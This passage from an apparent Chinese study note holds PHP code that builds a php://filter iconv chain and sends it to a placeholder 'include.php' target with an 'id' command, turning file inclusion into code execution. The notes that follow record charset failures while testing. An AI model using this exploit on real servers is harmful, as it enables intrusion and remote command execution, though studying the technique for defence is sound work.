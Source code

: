        'D' =>
       'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
       
       '7' =>
       'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
       
       '4' =>
       'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
       
       );
       
       $filters = "convert.base64-encode|";
       
       # make sure to get rid of any equal signs in both the string we just generated and the rest of the file
       
       $filters .= "convert.iconv.UTF8.UTF7|";
       
       foreach (str_split(strrev($base64_payload)) as $c) {
       
       $filters .= $conversions[$c] . "|";
       
       $filters .= "convert.base64-decode|";
       
       $filters .= "convert.base64-encode|";
       
       $filters .= "convert.iconv.UTF8.UTF7|";
       
       }
       
       $filters .= "convert.base64-decode";
       
       $final_payload = "php://filter/{$filters}/resource=/etc/passwd";
       
       // echo $final_payload;
       
       var_dump(file_get_contents("http://XXXX/include.php?file=".urlencode($final_payload)."&0=id"));
       
       ?>

[![OeTq8s.png](https://s1.ax1x.com/2022/05/05/OeTq8s.png)](https://imgtu.com/i/OeTq8s)

测试时ubuntu不支持convert.iconv.857.SHIFTJISX0213和convert.iconv.L7.SHIFTJISX0213

主要包含的字母是P和f，这里还是用上面可选字符集的payload筛选字符集让其存在

[![OeTbCj.png](https://s1.ax1x.com/2022/05/05/OeTbCj.png)](https://imgtu.com/i/OeTbCj)

- [ ] 替换：
        P替换为convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB，f暂时替换为大写F的convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB

测试时会报这样的错，说明还是有非法字符存在

[![OeToVS.png](https://s1.ax1x.com/2022/05/05/OeToVS.png)](https://imgtu.com/i/OeToVS)

干脆拿英文原作者的payload文件测试，
